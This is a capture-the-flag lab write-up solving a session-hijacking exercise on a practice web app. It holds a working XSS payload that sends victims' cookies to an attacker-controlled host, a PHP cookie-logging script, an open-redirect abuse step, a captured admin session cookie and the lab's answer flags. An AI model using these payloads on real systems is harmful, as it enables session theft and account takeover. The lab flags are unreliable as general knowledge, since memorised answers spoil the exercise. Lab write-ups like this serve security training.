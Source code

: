 ﻿You are currently participating in a bug bounty program.

- The only URL in scope is`http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
 - Email: heavycat106
 - Password: rocknrol
- Through dirbusting, you identified the following endpoint`http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

![Pasted image 20250219131413.png](../../../IMAGES/Pasted%20image%2020250219131413.png)
# First Question
---
Let's begin by checking the URL:

![Pasted image 20250219135123.png](../../../IMAGES/Pasted%20image%2020250219135123.png)

We can `Save`, `Share`, `Change Visibility` and `Delete`, we can begin by testing if the parameters are injectable to XSS:

![Pasted image 20250219135255.png](../../../IMAGES/Pasted%20image%2020250219135255.png)

Now, let's share:

![Pasted image 20250219135309.png](../../../IMAGES/Pasted%20image%2020250219135309.png)

There it is, it seems like the `Country` parameter is vulnerable to XSS, knowing this, we can craft a payload to get the admin credentials:

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<TUN0IP>:PORT/index.php?c=' + document.cookie;"></video>
```

Next, create a `index.php` file with the following contents in it:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

Let's start the server:

```php
php -S IP:PORT
```

Now, once we've done this, in order to simulate that the admin user's visited the site, we need to go back and view the other endpoint:

```
http://minilab.htb.net/submit-solution
```

If we visit this, the following happens:

![Pasted image 20250219135805.png](../../../IMAGES/Pasted%20image%2020250219135805.png)

So, we got an `Open Redirect`, we need to specify `?url=` and submit the URL we want to redirect too, we can do the following:

```http
minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```

And, we'll see the following in our php server:

```log
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Accepted
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 [302]: GET /index.php?c=auth-session=s%3A5IchvLZHGiNrCoU0u1Swpgdlq6WWWBJh.%2BeZAaKIbOJPi3GGw%2BW8A3r0%2Bjdb%2B%2FsVawbUxIB8oUdU
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Closing
```

If we check the site, we can see this:

![Pasted image 20250219140213.png](../../../IMAGES/Pasted%20image%2020250219140213.png)

It was indeed the admin user and we got the `auth-session` cookie, we can now authenticate as admin:

![Pasted image 20250219140807.png](../../../IMAGES/Pasted%20image%2020250219140807.png)

If we refresh the page:

![Pasted image 20250219140815.png](../../../IMAGES/Pasted%20image%2020250219140815.png)

We are now admin user, let's make it public:

![Pasted image 20250219140839.png](../../../IMAGES/Pasted%20image%2020250219140839.png)

If we go to share, we can see this:

![Pasted image 20250219140922.png](../../../IMAGES/Pasted%20image%2020250219140922.png)

We get the first flag, also, the yellow icon that says `Flag2`, downloads the pcap file for the next question, first flag is:

```
[YOU_ARE_A_SESSION_WARRIOR]
```

# Second Question
---

Now, let's open the pcap file:

![Pasted image 20250219142017.png](../../../IMAGES/Pasted%20image%2020250219142017.png)

We can filter:

![Pasted image 20250219142255.png](../../../IMAGES/Pasted%20image%2020250219142255.png)

We can see it selects the `Get /?redirect_uri` packet, if we open it, we can see this:

![Pasted image 20250219142323.png](../../../IMAGES/Pasted%20image%2020250219142323.png)

We got our flag:

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

![Pasted image 20250219142344.png](../../../IMAGES/Pasted%20image%2020250219142344.png)

